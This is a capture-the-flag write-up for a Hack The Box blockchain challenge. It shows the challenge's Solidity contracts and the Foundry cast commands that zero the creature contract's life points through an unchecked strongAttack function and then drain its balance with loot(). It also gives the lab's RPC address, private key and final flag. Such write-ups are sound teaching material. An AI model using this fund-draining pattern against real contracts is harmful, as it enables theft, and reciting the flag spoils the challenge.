


# Survival of the Fittest

## Challenge Details 

- **CTF:** Hack The Box
- **Category:** Blockchain
- **Points:** 10

## Provided Materials

- `Creature.sol`:

```php
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```

- `Setup.sol`:

```php
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

## Solution

We can use [cast](https://book.getfoundry.sh/cast/) to interact with the blockchain. But before better to read the docs on `http://IP:PORT/docs`.

What we need to do is to defeat our enemy with 20 `lifePoints`:

```php
constructor() payable {
    lifePoints = 20;
}
```

We can call `strongAttack` function to directly make an attack on 20 `lifePoints`:

```php
function strongAttack(uint256 _damage) external{
    _dealDamage(_damage);
}
```

So let's begin. Firstly, we need to check `http://IP:PORT/connection_info` to get `PrivateKey` and `TargetAddress`:



We will interact with `rpc` endpoint:

```php
/rpc: The RPC endpoint used for interacting with the network.
```

From `/docs`:

Calling a normal function
To call a function that modifies data, you need to sign the transaction. These functions are any non-view and non-pure functions in Solidity. You can use the cast tool again with the following command:

`cast send $ADDRESS_TARGET "functionToCall()" --rpc-url $RPC_URL --private-key $PRIVATE_KEY`

If the function has arguments, you follow the same pattern as before:

`cast send $ADDRESS_TARGET "functionWithArgs(uint)" 100 --rpc-url $RPC_URL --private-key $PRIVATE_KEY`

So our command will be:

```sh
$ cast send 0xfebcaef851d849286174F5980197dAf9ad1C2389 "strongAttack(uint256)" 20 --rpc-url http://94.237.55.163:52316/rpc --private-key 0x637c784b1f348e0cc091276087f55afaede4a8db3e24023a80380e670f8c6b1b

blockHash               0x6c382cfc8991e8050764d289047a34f5d6f2f4edca89e98464b5ed696f9b852e
blockNumber             2
contractAddress         
cumulativeGasUsed       43933
effectiveGasPrice       3000000000
from                    0xDdE4fF4AD5B93604304a317457Eda9259ef0bd04
gasUsed                 43933
logs                    []
logsBloom               0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
root                    
status                  1
transactionHash         0x9284760184643d0d462d4aee3f8edf46ed36a8046c93a36ffafacc745382f6e1
transactionIndex        0
type                    2
to                      0xfebcaef851d849286174F5980197dAf9ad1C2389
```

And now we need to "claim" the `loot`:

```php
function loot() external {
    require(lifePoints == 0, "Creature is still alive!");
    payable(msg.sender).transfer(address(this).balance);
}
```

So our command will be:

```sh
$ cast send 0xfebcaef851d849286174F5980197dAf9ad1C2389 "loot()" --rpc-url http://94.237.55.163:52316/rpc --private-key 0x637c784b1f348e0cc091276087f55afaede4a8db3e24023a80380e670f8c6b1b

blockHash               0x95bb37e1002e65efb957172e67661ae88fd59ec7f9d20273f94af7cb240667cc
blockNumber             3
contractAddress         
cumulativeGasUsed       30240
effectiveGasPrice       3000000000
from                    0xDdE4fF4AD5B93604304a317457Eda9259ef0bd04
gasUsed                 30240
logs                    []
logsBloom               0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
root                    
status                  1
transactionHash         0xdc1ced2eaba19a7ca1a83aa537383d32b272d1fbbd26967a1c7fc7cfb5d71d5b
transactionIndex        0
type                    2
to                      0xfebcaef851d849286174F5980197dAf9ad1C2389
```

And now we need to open `http://IP:PORT/flag` to get the flag:



## Final Flag

`HTB{g0t_y0u2_f1r5t_b100d}`

*Created by [bu19akov](https://github.com/bu19akov)*